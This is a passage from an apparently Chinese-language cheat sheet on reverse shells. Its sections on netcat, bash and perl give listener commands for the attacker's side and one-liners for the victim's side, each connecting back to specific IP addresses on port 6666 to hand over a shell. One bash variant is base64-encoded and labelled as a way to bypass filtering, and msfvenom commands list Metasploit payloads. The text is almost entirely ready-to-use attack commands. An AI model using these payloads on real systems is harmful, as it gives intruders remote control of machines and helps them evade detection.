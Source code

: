    msf 生成payload

    ```sh
    msfvenom -l payload | grep "netcat" | awk '{print $1}'
    ```

## bash

控制端开启监听：

```bash
nc -lvvp port
```

被控端发起连接

```bash
bash -i >& /dev/tcp/47.101.214.85/6666 0>&1
```

或

```bash
exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done
# base64编码绕过：
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"
```

msf 生成payload

```bash
msfvenom -l payload | grep "bash" | awk '{print $1}'
```

## perl

控制端开启监听：

```bash
nc -lvvp port
```

被控端发起连接：

```bash
perl -e 'use Socket;$i="47.101.214.85";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

或

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"47.101.214.85:6666");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

msf 生成 payload

```bash
msfvenom -l payload | grep "perl" | awk '{print $1}'
```
